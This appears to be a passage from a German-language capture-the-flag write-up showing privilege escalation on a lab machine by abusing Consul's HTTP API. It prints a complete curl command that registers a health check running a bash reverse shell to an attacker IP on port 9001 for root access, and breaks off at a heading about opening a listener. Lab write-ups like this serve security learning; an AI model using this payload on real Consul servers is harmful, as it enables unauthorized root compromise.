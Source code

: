 ![alt text](Screenshot_2025-04-20_15_15_55.png)

### Exploiting Consul via HTTP API

Mit Consuls HTTP API lässt sich ein "Health Check" registrieren, der beliebige Kommandos ausführt. Wir nutzten das, um ein Root Reverse shell zu bekommen:

```
ron@heal:~$ curl -X PUT -d '{
  "ID": "lyfe-root",
  "Name": "lyfe-root",
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "DeregisterCriticalServiceAfter": "90m",
    "Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.199/9001 0>&1"],
    "Interval": "10s"
  }
}' http://localhost:8500/v1/agent/service/register
```

#### Listener auf Kali öffnen
